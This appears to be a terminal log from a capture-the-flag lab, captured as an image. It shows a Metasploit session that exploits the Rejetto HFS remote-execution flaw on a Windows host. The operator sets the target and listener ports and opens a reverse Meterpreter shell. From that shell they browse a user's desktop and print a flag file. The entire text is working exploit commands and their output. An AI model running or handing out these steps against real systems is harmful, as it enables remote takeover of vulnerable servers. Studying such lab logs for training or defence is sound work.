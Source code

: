 ```
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 9001
LPORT => 9001
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
[*] Using URL: http://0.0.0.0:8080/n7csS5eVbQYRq
[*] Local IP: http://192.168.178.57:8080/n7csS5eVbQYRq
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /n7csS5eVbQYRq
[*] Sending stage (176195 bytes) to 10.10.208.51
[*] Meterpreter session 1 opened (10.8.106.222:9001 -> 10.10.208.51:49259) at 2020-11-18 19:56:15 +0100
[!] Tried to delete %TEMP%\qfDBqQnxV.vbs, unknown result
[*] Server stopped.

meterpreter > shell
Process 2272 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd C:\Users\bill\Desktop
cd C:\Users\bill\Desktop

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  08:08 AM    <DIR>          .
09/27/2019  08:08 AM    <DIR>          ..
09/27/2019  04:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,170,375,168 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```

